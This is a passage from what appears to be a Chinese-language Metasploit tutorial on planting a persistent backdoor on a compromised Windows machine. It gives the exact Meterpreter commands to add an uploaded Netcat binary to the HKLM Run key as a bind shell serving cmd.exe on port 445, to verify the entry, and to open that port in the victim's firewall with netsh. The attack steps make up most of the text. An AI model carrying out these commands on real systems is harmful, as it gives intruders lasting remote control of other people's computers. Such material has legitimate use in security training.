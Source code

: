 我们可以看到我们的 Netcat 程序已成功上传到受害者的系统中。我们现在必须做的一件重要事情是将 Netcat 添加到受害者的启动进程中，并将其与端口 445 绑定。为了能够做到这一点，我们必须调整受害者的注册表设置。输入`run reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run`。

![Metasploit persistent backdoor](img/3589_10_40.jpg)

运行此命令枚举启动注册表项，我们发现在启动过程中有三个服务正在运行。我们可以在前面的屏幕截图中看到这三个值。现在，我们在这个注册表值中设置 Netcat 服务。输入`reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe'`。

![Metasploit persistent backdoor](img/3589_10_41.jpg)

我们的 Netcat 服务已连接到注册表，因此让我们验证它是否正常运行。输入`reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc`。

![Metasploit persistent backdoor](img/3589_10_42.jpg)

我们必须做的下一件重要事情是允许端口号 445 的 Netcat 服务通过受害者的防火墙。输入`netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL`。

![Metasploit persistent backdoor](img/3589_10_43.jpg)
